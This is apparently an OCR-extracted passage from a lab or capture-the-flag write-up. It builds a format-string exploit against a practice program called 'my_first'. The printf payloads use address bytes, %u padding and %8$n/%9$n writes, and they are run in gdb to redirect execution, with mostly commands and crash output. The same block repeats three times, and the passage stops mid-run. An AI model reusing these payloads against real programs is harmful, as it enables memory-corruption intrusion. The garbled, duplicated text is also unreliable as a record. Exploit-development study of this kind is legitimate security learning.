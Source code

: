 Selection: 
Enter first number: Enter second number: Error details: ����  
Program received signal SIGSEGV, Segmentation fault.
0x90609060 in ?? ()
(gdb)
>mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%9$n' > payload
mike@pegasus:~$ gdb -q ./my_first 
Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.
(gdb) r < payload 
Starting program: /home/mike/my_first < payload
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ����  
Program received signal SIGSEGV, Segmentation fault.
0x90609060 in ?? ()
(gdb)
>mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%9$n' > payload
mike@pegasus:~$ gdb -q ./my_first 
Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.
(gdb) r < payload 
Starting program: /home/mike/my_first < payload
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ����  
Program received signal SIGSEGV, Segmentation fault.
0x90609060 in ?? ()
(gdb)


In this case we wrote 4 more bytes so teh 36956 went down to 36952. Now we need to find the decimal for the first half


>mike@pegasus:~$ python -c 'print 0x14006-0x9060'
44966


so i changed my payload again and ran gdb


>mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n' > payload
mike@pegasus:~$ gdb -q ./my_first Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.
(gdb) r < payload 
Starting program: /home/mike/my_first < payload
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit
